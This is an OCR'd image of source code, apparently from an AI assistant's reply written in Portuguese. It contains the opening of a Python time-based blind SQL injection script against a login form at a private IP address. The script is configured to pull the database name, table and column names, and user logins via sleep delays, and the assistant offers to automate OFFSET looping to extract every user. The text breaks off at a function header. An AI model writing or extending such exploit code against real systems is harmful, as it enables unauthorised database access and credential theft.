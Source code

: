 
## 🧠 Dica final:

Se quiser automatizar essa rotação de OFFSET para extrair tudo de uma vez (ex: todos os usuários), posso adaptar o script para **loopar os OFFSETs automaticamente até não vir mais nada**.

Quer que eu adicione isso pra você no script?




import requests

import time

import string

  

# ================== CONFIGURAÇÕES ==================

url = "http://10.10.0.27/login"  # URL do endpoint do login

param_user = "username"          # Nome do campo de usuário no formulário

param_pass = "password"          # Nome do campo de senha no formulário

fixed_password = "123"           # Valor qualquer para o campo senha

  

# Consulta SQL a ser usada (edite aqui para mudar o alvo)

sql_target = "(SELECT database())"  # Exemplo: banco atual

# sql_target = "(SELECT table_name FROM information_schema.tables WHERE table_schema='cc' LIMIT 1 OFFSET 0)"

# sql_target = "(SELECT column_name FROM information_schema.columns WHERE table_name='users' AND table_schema='cc' LIMIT 1 OFFSET 0)"

# sql_target = "(SELECT login FROM users LIMIT 1 OFFSET 0)"

  

sleep_time = 3  # Quantidade de segundos para detectar delay

# ======================================================

  

def enviar_payload(payload):

